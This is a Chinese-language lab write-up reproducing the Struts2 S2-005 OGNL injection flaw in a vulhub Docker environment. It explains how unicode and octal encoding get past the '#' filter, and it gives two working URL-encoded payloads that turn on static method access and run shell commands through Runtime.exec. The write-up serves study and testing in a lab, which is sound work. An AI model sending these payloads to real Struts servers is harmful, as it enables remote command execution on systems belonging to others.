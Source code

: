 ## Struts2漏洞S2-005复现笔记

## S2-005复现漏洞原理

~~~text
s2-005漏洞的起源源于S2-003(受影响版本: 低于Struts 2.0.12)，struts2会将http的每个参数名解析为OGNL语句执行(可理解为java代码)。OGNL表达式通过#来访问struts的对象，struts框架通过过滤#字符防止安全问题，然而通过unicode编码(\u0023)或8进制(\43)即绕过了安全限制，对于S2-003漏洞，官方通过增加安全配置(禁止静态方法调用和类方法执行等)来修补，但是安全配置被绕过再次导致了漏洞，攻击者可以利用OGNL表达式将这2个选项打开
~~~

影响版本：Struts 2.0.0-2.1.8.1

## 漏洞搭建

~~~~
https://github.com/vulhub/vulhub/tree/master/struts2/s2-005
~~~~

运行以下命令启动环境

```
docker-compose build
docker-compose up -d
```

搭建成功：

![image-20220330205122843](E:\学习\picture\image-20220330205122843.png)

## 构建poc

使用抓包工具burp suite，修改数据包插入poc

~~~poc
(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1
~~~

![image-20220330210413069](E:\学习\picture\image-20220330210413069.png)

**Poc2：**

~~~~
?%27%2B%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3Dfalse%2C%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%27id%27%29.getInputStream%28%29%29%29%2B%27
~~~~

![image-20220330210547380](E:\学习\picture\image-20220330210547380.png)

## 查看数据连接状态

命令：

~~~
docker exec -it c25543ef6c4c /bin/bash
~~~

ls /tmp

![image-20220330210920367](E:\学习\picture\image-20220330210920367.png)